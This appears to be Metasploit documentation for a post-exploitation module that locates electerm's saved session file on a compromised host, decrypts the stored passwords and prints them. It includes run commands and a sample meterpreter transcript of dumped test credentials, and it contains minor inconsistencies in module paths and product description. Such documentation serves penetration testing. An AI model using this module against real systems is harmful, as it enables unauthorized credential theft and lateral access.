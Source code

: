 ## Vulnerable Application
  electerm is free and open source universal database tool for developers and database administrators.

  This module will determine if electerm is installed on the target system and, if it is, it will try to
  dump all saved session information from the target. The passwords for these saved sessions will then be decrypted
  where possible.

  Any electerm version on any operating system are supported.

  If it works normally, the connection name, host, username and password saved in the certificate file will be printed

### Installation Steps

  1. Download and run the electerm installer (https://github.com/electerm/electerm/).
  2. Select default installation
  3. Open the software and create a connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a session.
  2. Do: `set session <session number>`
  3. Do: `run post/multi/gather/credentials/electerm`
  4. If the system has registry keys for electerm passwords they will be printed out.

## Options

 **BOOKMARKS_FILE_PATH**

Specifies the `electerm.bookmarks.nedb` file path for electerm. (eg.
`C:\Users\FireEye\AppData\Roaming\electerm\users\default_user\electerm.bookmarks.nedb`).

## Scenarios

```
meterpreter > run post/windows/gather/credentials/electerm

[*] Gather electerm Passwords
[*] Looking for JSON files in /home/kali-team/.config/electerm/users/default_user/electerm.bookmarks.nedb
[+] electerm electerm.bookmarks.nedb saved to /home/kali-team/.msf4/loot/20240816195518_default_127.0.0.1_electerm.creds_806863.txt
[*] Finished processing /home/kali-team/.config/electerm/users/default_user/electerm.bookmarks.nedb
[+] Passwords stored in: /home/kali-team/.msf4/loot/20240816195518_default_127.0.0.1_host.electerm_421975.txt
[+] electerm Password
=================

Title   Type    Host       Port  Username  Password       Description
-----   ----    ----       ----  --------  --------       -----------
                127.0.0.1  22    ssh       asdasdawdasdw
                127.0.0.1  22    asdas     asdasdas
drp     rdp     127.0.0.1  3389  drp       drppass        rdp test
telnet  telnet  127.0.0.1  23    root      guest          telnet des
vnc     vnc     127.0.0.1  5900  vncuser   vncpass        vnc des
[*] Post module execution completed
meterpreter >
```
